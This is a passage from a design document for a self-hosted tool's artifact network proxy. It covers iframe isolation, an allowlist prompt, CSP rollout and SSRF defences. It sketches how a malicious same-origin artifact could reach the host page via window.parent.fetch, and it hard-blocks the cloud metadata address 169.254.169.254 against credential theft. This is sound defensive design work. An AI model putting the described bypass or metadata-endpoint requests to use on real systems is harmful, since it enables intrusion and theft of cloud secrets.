- **Same-origin artifact reaching `window.parent`.** The current iframe uses `allow-same-origin`, so a malicious artifact could call `window.parent.fetch(...)`, executing under the host's context and bypassing the broker prompt. Of the §3.5 boundary, the **metadata block still holds**: reaching the server's metadata endpoint requires a *server-originated* request — i.e. the broker, which refuses it — and `window.parent.fetch` is *browser*-originated, so it cannot reach the server's internal network at all. What such a bypass could reach is same-origin TwiCC URLs (the real concern) and public hosts (already possible today, §3.1). **Isolating artifacts on a dedicated origin** (so `window.parent` is cross-origin and unreadable) is the real future hardening — compatible with this broker (postMessage is origin-agnostic), the tricky part being to keep `'self'`/relative-asset resolution working — but out of scope here.
- **Per-host secrets** (injecting a user's API key for a given host) — explicitly out of scope; a separate feature.

---

## 14. Decisions (resolved 2026-06-18)

All five open questions were settled with the user. These are the authoritative answers; the reasoning lives in the referenced sections.

- **O1 — Endpoint placement & shell shape → one shared endpoint, both contexts built together.** The proxy is a single `POST /api/artifact-proxy/` shared by the SPA wrapper and the dedicated shell (artifact identity in the body → also covers non-bookmarked previews; under `/api/` unauth is a JSON 401; in both contexts the caller already holds the session cookie — the dedicated page obtained it via `artifact_auth` at `/artifacts/auth`). The dedicated page and the in-SPA preview are implemented **together**, not phased: `/artifacts/<id>/` stops serving `index.html` directly and serves a trusted **shell** that embeds the real artifact in an inner iframe. The inner-doc path naming (e.g. `_doc/`) and whether the shell is a Django template (like `artifact_auth.html`) are implementation cosmetics, not decisions. See §5, §6.1.
- **O2 — Non-bookmarked HTML previews → broker works, "allow once" only.** The broker is available for any served HTML artifact. "Allow this host forever" is offered **only** when the artifact is bookmarked (the only place to persist the allowlist). Without a bookmark the prompt offers "allow once" / "deny" only. See §9.
- **O3 — Loopback/LAN policy → uniform per-host prompt; only the cloud metadata address is hard-blocked.** No range blocking, no on/off flag, no deployment detection. Every target the widget requests — `localhost`, LAN, or public — goes through the **same** informed prompt (allow once / allow forever per host:port / deny). The server resolves the hostname, pins the IP, and the prompt shows the **true** resolved destination, so a name can't masquerade as an innocent public host while pointing at the server's own loopback/LAN. The **only** unconditional, non-overridable block is the cloud metadata address (`169.254.169.254` + equivalents). Rationale: TwiCC is single-user self-hosted (the operator *is* the person clicking the prompt); the access method (local vs tunnel) is irrelevant because resolution is server-side; and the deployment cannot be auto-detected to justify any other default. The artifact's own same-origin assets are unaffected — they are not brokered (§6.6). See §3.5, §6.2.
- **O4 — Allowlist granularity → `scheme+host+port`, port-by-port, for v1.** Entries are keyed on scheme + host + the **normalized** port (scheme default when implicit), matched exactly — approving one port does **not** authorize another (`localhost:9000` ≠ `localhost:5432`), which is what keeps an approved local tool from silently exposing the DB / TwiCC itself. The prompt shows `host:port`. Per-path/method rules are deferred. See §6.4.
- **O5 — CSP rollout → all HTML artifacts, immediately.** The strict CSP applies to every served HTML artifact from the start. No retro-compat concern (artifacts are not deployed anywhere yet), so no "gate behind broker presence" and no grandfathering: every served HTML artifact gets the injected shim **and** the strict CSP together — there is no "artifact without broker", so any widget needing the network always has the broker available. See §7.

---

## 15. Suggested implementation phases

1. **Server proxy + resolution guard** (pure-function `classify_ip` + the async view with preflight/fetch modes), with unit tests: `classify_ip` for each kind (metadata/loopback/lan/public), IP-pinning vs DNS rebinding, no-redirect, and the metadata hard-block. No client yet — testable with curl.
2. **`ArtifactBookmark.allowed_hosts`** field + migration + serializer + mutation endpoint/service (entries store host + approved kind, for the rebinding re-prompt).
3. **CSP + shim injection** in the shared HTML-serving helper; build the shim bundle (`@mswjs/interceptors` + `penpal`); serve it at a stable URL.
4. **Host module** + SPA wrapper integration (FilePane): penpal parent, allowlist check, prompt UI, "pause/resume", and re-prompt on a resolved-kind change (§6.2).
5. **Dedicated-page shell** reusing the host module.
6. **Docs:** update `CLAUDE.md` + `AGENTS.md` (broker/SSRF posture), `SKILLS-AND-CLI.md` if any CLI surface, and the artifacts skill so agents know widgets may use plain `fetch` (it's brokered).

---

## 16. References

- `@mswjs/interceptors` — https://github.com/mswjs/interceptors · https://www.npmjs.com/package/@mswjs/interceptors
- `penpal` — https://github.com/Aaronius/penpal
- postMessage RPC landscape — https://npmtrends.com/@mixer/postmessage-rpc-vs-easyxdm-vs-jschannel-vs-penpal-vs-post-robot-vs-postmate
- `krakenjs/fetch-robot` (archived; rule-shape reference only) — https://github.com/krakenjs/fetch-robot
- CSP `connect-src` (covers WebSocket) — https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src
- SSRF / cloud metadata background — https://owasp.org/www-community/attacks/Server_Side_Request_Forgery
